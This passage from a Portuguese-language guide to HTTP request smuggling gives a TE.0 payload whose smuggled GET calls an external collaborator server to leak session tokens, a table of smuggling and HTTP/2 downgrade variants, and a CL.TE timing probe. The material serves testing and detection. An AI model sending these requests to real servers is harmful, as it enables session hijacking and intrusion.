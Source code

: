 - **TE.0**: Explora falhas na interpretação de TE (ex.: Google Cloud).

```http
OPTIONS / HTTP/1.1
Host: {HOST}
Transfer-Encoding: chunked

50
GET http://our-collaborator-server/ HTTP/1.1
x: X

0
```

**Resultado**: Requisição `GET` contrabandeada vaza tokens de sessão.

### Ataques de Downgrade de HTTP/2

- **H2.CL**: Content-Length incorreto em HTTP/2 é passado para HTTP/1.1.
- **H2.TE**: Transfer-Encoding proibido em HTTP/2 passa no downgrade.
- **Injeção de CRLF**: Sequências `\r\n` em cabeçalhos HTTP/2 criam divisões no HTTP/1.1.

**Tabela 1: Variantes de HTTP Request Smuggling**

| Variante | Front-End | Back-End | Cabeçalhos Chave | Método de Exploração |
|----------|-----------|----------|------------------|----------------------|
| CL.TE    | Usa CL    | Usa TE   | CL, TE           | CL menor que corpo com chunk `0` |
| TE.CL    | Usa TE    | Usa CL   | TE, CL           | TE com CL pequeno |
| TE.TE    | Usa TE    | Usa TE   | TE (ofuscado)    | Ofuscação de TE |
| CL.0     | Usa CL    | Ignora CL | CL              | POST com corpo em endpoint sem corpo |
| TE.0     | Usa TE    | Falha TE | TE               | Falha específica em TE |
| H2.CL    | HTTP/2    | Usa CL   | content-length   | CL incorreto no downgrade |
| H2.TE    | HTTP/2    | Usa TE   | transfer-encoding | TE ilegal no downgrade |

## Seção 3: Metodologias para Detecção e Confirmação

### Sondagem de Vulnerabilidades: Técnicas de Temporização

- **CL.TE**:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```
